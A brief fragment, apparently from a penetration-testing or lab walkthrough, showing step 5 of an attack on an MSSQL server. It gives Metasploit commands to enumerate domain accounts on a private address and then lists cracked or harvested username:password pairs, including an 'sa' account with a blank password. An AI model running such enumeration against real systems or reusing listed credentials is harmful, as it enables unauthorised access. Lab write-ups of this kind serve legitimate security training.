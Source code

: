```bash

# 5. Enumerate all available system users
msf6> use admin/mssql/mssql_enum_domain_accounts
msf6> set rhosts 10.2.17.166
msf6> run
```

Credentials : `admin:bubbles1` `sa:` `dbadmin:anamaria` `auditor:nikita`
